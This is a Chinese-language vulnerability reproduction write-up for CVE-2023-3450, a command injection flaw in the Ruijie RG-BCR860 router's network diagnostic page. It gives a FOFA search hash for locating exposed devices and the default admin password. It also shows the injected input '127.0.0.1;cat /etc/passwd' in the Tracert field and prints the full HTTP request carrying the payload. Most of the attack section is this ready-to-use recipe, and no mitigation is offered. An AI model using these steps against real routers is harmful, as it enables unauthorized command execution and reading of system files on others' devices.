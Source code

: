 # 锐捷RG-BCR860路由器命令执行漏洞（CVE-2023-3450）

# 一、漏洞简介
RG-BCR860是锐捷网络推出的一款商业云路由器，它是专为酒店、餐饮、门店设计，适用带宽100Mbps,带机量可达150台，支持Sec VPM、内置安全审计模块，给商家带来更好的网络营销体验 。该产品主支持全中文的WEB 界面配置，不再需要用传统的命令行进行配置，使得设备更加简单方便的进行维护和管理。RG-BCR860 2.5.13版本存在操作系统命令注入漏洞，该漏洞源于组件Network Diagnostic Page存在问题，会导致操作系统命令注入。

# 二、影响版本
+ 锐捷路由器RG-BCR860

# 三、资产测绘
+ fofa`icon_hash="-399311436"`

![1692606754994-2f1216a0-282b-45a6-94fc-b7f5dd405745.png](./img/m9qo6lOTSwrcQIzK/1692606754994-2f1216a0-282b-45a6-94fc-b7f5dd405745-691021.png)

+ 登录页面

![1692606877528-52b592a6-ef53-44d7-8dbc-8ffe1299e9e6.png](./img/m9qo6lOTSwrcQIzK/1692606877528-52b592a6-ef53-44d7-8dbc-8ffe1299e9e6-740734.png)

# 四、漏洞复现
1. 该漏洞属于后台漏洞，需要登录后台（默认密码：admin）

![1692606937330-5391e9ce-3c7b-4c56-8529-034a3d1a2a32.png](./img/m9qo6lOTSwrcQIzK/1692606937330-5391e9ce-3c7b-4c56-8529-034a3d1a2a32-877796.png)

2. 漏洞位置：网络诊断->Tracert检测->输入`127.0.0.1;cat /etc/passwd`

![1692607017024-349a76e0-e5a3-4a4a-83d1-acaa51b2c694.png](./img/m9qo6lOTSwrcQIzK/1692607017024-349a76e0-e5a3-4a4a-83d1-acaa51b2c694-896230.png)

3. 数据包

```plain
GET /cgi-bin/luci/;stok=8bbbc7db8f9e3d2d972bd7ab13f21a75/admin/diagnosis?diag=tracert&tracert_address=127.0.0.1%3Bcat+%2Fetc%2Fpasswd&seq=20 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: sysauth=698164456dede213f8f15cebba269273
```

![1694586407185-44b0cbef-6fc5-4191-be0e-3cebec716a20.png](./img/m9qo6lOTSwrcQIzK/1694586407185-44b0cbef-6fc5-4191-be0e-3cebec716a20-599627.png)



> 更新: 2024-06-24 11:42:27  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/iodb45mpku6ufxa5>